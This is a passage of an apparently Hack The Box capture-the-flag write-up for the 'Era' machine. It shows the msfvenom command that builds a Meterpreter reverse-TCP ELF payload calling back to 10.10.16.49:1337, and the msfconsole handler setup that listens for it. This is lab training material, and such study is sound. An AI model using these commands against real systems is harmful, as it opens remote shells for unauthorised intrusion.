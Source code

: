 ![testing working](image-10.png)

Now, let's start build our payload using `Metasploit`:

* Create payload using `msfvenom`:

we create `elf` file that is going to be the file we execute on the victim machine.
As you can see, i supplied the payload `linux/x86/meterpreter/reverse_tcp`, and also my attcker IP and machine.
We need to set the same arguments in our msfconsole.

```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.16.49 LPORT=1337 -f elf --out reverse_meterpreter
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: reverse_meterpreter
```

* Create listener in our `msfconsole`:

first, execute `msfconsole` to start the tool.
next, we want to use the `exploit/multi/handler` module.

```bash
msf > use exploit/multi/handler
```

Now, we need to set the payload, we can use `show options` to see what we need to set.
```bash
msf exploit(multi/handler) > set LHOST 10.10.16.49
LHOST => 10.10.16.49
msf exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
```

Now, we can execute the exploit, the flag `-j` is for job, to run in the background. the flag `-z` is for no interact, no interaction with session after successful connection. I want to rule it on my own.
```bash
msf exploit(multi/handler) > exploit -j -z 
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.16.49:1337 
```
